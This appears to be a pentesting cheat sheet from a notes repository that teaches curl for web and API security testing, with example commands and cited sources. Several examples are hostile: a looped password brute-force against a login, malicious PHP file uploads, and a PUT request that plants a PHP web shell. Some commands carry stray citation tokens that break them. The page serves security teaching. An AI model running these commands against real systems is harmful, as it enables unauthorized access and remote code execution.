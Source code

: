 ```yaml
---
icon: bracket-curly
---
```


# Curl

## The curl Masterclass: Professional Web and API Security Testing & Automation

cURL is the essential command-line tool for web and API interaction—loved by bug bounty hunters, penetration testers, and developers for its flexibility, scriptability, and protocol support. Its versatility spans reconnaissance, authentication, vulnerability testing, content manipulation, and workflow automation.

***

### I. Core Capabilities & Workflow

* **Protocol Agility:** Supports HTTP, HTTPS, FTP/S, SCP, SFTP, SMTP/S, TELNET, TFTP, GOPHER, and more, enabling broad network testing.\[1]\[2]\[3]
* **Advanced HTTP Requests:** Executes GET, POST, PUT, PATCH, DELETE, TRACE, OPTIONS, and custom verbs for REST API manipulation or server-side method abuse.\[2]\[4]\[1]
* **Request Modification:** Add custom headers, manipulate cookies, set referrers, user-agents, or host headers for testing authentication, CORS, and WAFs.\[4]\[1]\[2]
* **Authentication Testing:** Supports Basic, Digest, NTLM, Bearer, and custom tokens for HTTP/REST auth assessment.\[1]\[2]
* **File Uploads & Downloads:** Upload with `F` or `-data-binary`, test insecure file validation or remote file inclusion.\[4]\[1]
* **SSL/TLS & Proxy:** Test HTTPS endpoints (bypass certificate errors with `k`), support HTTP/SOCKS proxies for interception and advanced workflows.\[2]\[1]\[4]
* **Response Analysis:** Output headers only, follow redirects, analyze status and security headers for misconfigurations and vulnerabilities.\[1]\[4]
* **Automation & Scripting:** Integrates into bash, Python, or SOC/CI pipelines for large-scale automated testing.\[5]\[6]\[1]

***

### II. Professional Usage Examples

#### Request & Auth Testing

```bash
# GET request with custom headers
curl -i -H "Accept: application/json" -H "Authorization: Bearer $TOKEN" <https://target.com/api>

# POST json payload with authentication
curl -X POST -H "Content-Type: application/json" -d '{"username":"admin","password":"1234"}' <https://target.com/login>

# Basic HTTP authentication
curl -u admin:password <https://target.com/admin>

# Brute-force via script
for user in $(cat users.txt); do for pass in $(cat passwords.txt); do curl -u "$user:$pass" <https://target.com/login>; done; done[web:585].

# Test with proxies
curl -x <http://127.0.0.1:8080> <https://target.com>

```

#### Vulnerability & Attack Simulation

```bash
# File upload test
curl -F "file=@evil.php.jpg" <https://target.com/upload[web:585][web:588]>.

# HTTP method abuse
curl -X PUT -d '<?php system($_GET["cmd"]); ?>' <https://target.com/shell.php[web:585][web:588]>.

# HTTP TRACE method
curl -X TRACE <https://target.com> -v

# SSRF and Host header injection
curl -H "Host: internal.target" <https://target.com/api>

# Fuzz/query parameter probing (with wordlist/script)
for param in $(cat paramlist.txt); do curl "$TARGET_URL?$param=test"; done

```

#### Response & Analysis

```bash
# Get response headers only
curl -I <https://target.com>

# Follow redirection and ignore SSL errors
curl -kL <https://target.com>

# Verbose request/response for debugging
curl -v <https://target.com>

# Save entire response for offline analysis
curl <https://target.com> -o output.html

```

***

### III. Advanced Automation & Scenarios

* **Integrate with Intermediaries:** Route through Burp Suite or ZAP for traffic interception, replay, or manual fuzzing.\[2]
* **Scripting Chains:** Combine cURL with grep/sed/awk/jq for custom parsing, automation, or batch exploitation.\[6]\[7]
* **API Testing:** Include in CI pipelines for auth, functionality, and injection flaw detection on REST interfaces.\[8]\[9]
* **Monitor Security Headers:** Automate checks for HSTS, CSP, and missing protections.
* **Recon Integration:** Use in asset enumeration, subdomain scanning (with HTTP checks), or content discovery.

***

### IV. Real-World Workflow Example

1. **Enumerate Vulnerable Endpoints**

```bash
for url in $(cat endpoints.txt); do curl -k -I $url; done

```

1. **Automate Brute-Force or Fuzzing**

```bash
for user in $(cat users.txt); do for pass in $(cat passwords.txt); do curl -u "$user:$pass" <https://target.com/login>; done; done

```

1. **Auth, Upload, and Proxy in Web App Pentesting**

```bash
curl -X POST -u admin:password -F "file=@exp.php" <https://target.com/upload> --proxy <http://127.0.0.1:8080>

```

1. **Security Header & Redirect Check**

```bash
curl -I -L <https://target.com> | grep -E 'Strict|CSP|Location'

```

1. **Trace and Log for Audit/Disclosure**

```bash
curl --trace-ascii curl.log <https://target.com>[web:585].

```

***

### V. Pro Tips & Best Practices

* Always operate with explicit authorization—log all potentially intrusive tests.\[6]\[1]
* Use `-trace-ascii` to keep request/response logs for forensics and bug bounty proof.
* Validate SSL/TLS errors only in context; don’t ignore real issues with `k` unless necessary.
* Integrate in pipelines for bug bounty and routine perimeter checks.
* Combine with other cli tools for mass testing (xargs, GNU Parallel, Python, etc.).
* Automate, but always analyze manual findings for maximum impact and accuracy.

***

This guide equips professionals to wield cURL for advanced security testing, automation, and continuous assessment—arming every pentester or bug bounty hunter with flexible, high-impact web and API reconnaissance.\[9]\[5]\[4]\[6]\[1]\[2]

Sources \[1] The Penetration Tester's Secret Weapon Against Web Security [https://lipsonthomas.com/mastering-curl-penetration-testing-tips/](https://lipsonthomas.com/mastering-curl-penetration-testing-tips/) \[2] 2023 Techniques: Mastering Curl for Pentesting Like a Pro! [https://ruatelo.com/curl-for-pentesting/](https://ruatelo.com/curl-for-pentesting/) \[3] curl - Tutorial [https://curl.se/docs/tutorial.html](https://curl.se/docs/tutorial.html) \[4] Web Penetration Testing with Curl Cheatsheet [https://www.hackingdream.net/2024/02/web-penetration-testing-with-curl-chaetsheet.html](https://www.hackingdream.net/2024/02/web-penetration-testing-with-curl-chaetsheet.html) \[5] curl Cheat Sheet: Helpful Commands and Exciting Hacks [https://www.stationx.net/curl-cheat-sheet/](https://www.stationx.net/curl-cheat-sheet/) \[6] 20+ cURL Hacks That Will Make You a Bug Bounty Pro [https://systemweakness.com/20-curl-hacks-that-will-make-you-a-bug-bounty-pro-186ecc51bff5](https://systemweakness.com/20-curl-hacks-that-will-make-you-a-bug-bounty-pro-186ecc51bff5) \[7] Extract — Grep — Curl | A $50000 Bug POC Methodology [https://infosecwriteups.com/extract-grep-curl-a-50000-bug-poc-methodology-16365489de92](https://infosecwriteups.com/extract-grep-curl-a-50000-bug-poc-methodology-16365489de92) \[8] How To Prepare for an API Pentest – Curl [https://blog.cyberadvisors.com/technical-blog/blog/how-to-prepare-for-an-api-pentest-curl](https://blog.cyberadvisors.com/technical-blog/blog/how-to-prepare-for-an-api-pentest-curl) \[9] Test a REST API with curl [https://www.baeldung.com/curl-rest](https://www.baeldung.com/curl-rest)

